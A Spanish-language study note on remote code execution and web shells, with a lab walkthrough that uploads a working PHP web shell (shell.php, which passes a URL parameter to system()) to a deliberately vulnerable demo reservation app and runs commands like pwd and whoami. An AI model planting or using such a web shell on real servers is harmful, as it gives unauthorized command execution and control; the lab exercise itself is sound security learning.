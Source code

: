 ```yaml
---
{"dg-publish":true,"permalink":"/Ciberseguridad/Ataques/Web-Shell y RCE/"}
---
```


# Remote Code Execution
Básicamente cuando un atacante encuentra una forma de correr su propio código en un sistema. Esto puede servirle para utilizar el servidor al cual se conecto, como si fuera propio, tomar control total, exfiltrar datos, etc.

# Web shell
Un web shell es un script que es subido por un atacante a un servidor vulnerable. El script se accede desde la misma página de manera remota y con él podriamos ejecutar RCE desde él. También podemos usarlo para movernos lateralmente en un servidor o pivotear a otros servicios.
Usualmente se crea una interfaz web para interactuar con la shell, he ahí el nombre.

# Test
<a href="https://codeastro.com/online-railway-reservation-system-in-php-with-source-code/"> Para ejemplificar podemos descargar el Online Railway Reservation System de codeastro.com</a>
Está diseñado con diversas vulnerabilidades.
Lo montamos en nuestra máquina de pruebas y nos vamos a alguna parte que nos requiera subir un archivo:
![](https://i.imgur.com/3mFb89c.png)

Le vamos a cargar shell.php:
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
Básicamente crea un formulario con input que tiene acceso a ejecutar comandos e imprime el resultado. Lanzando el comando pwd obtenemos lo siguiente.
![](https://i.imgur.com/RWHoPo0.png)
De ahí podriamos correr `whoami`, `ls`, `hostname`, `uname -a`, etc.
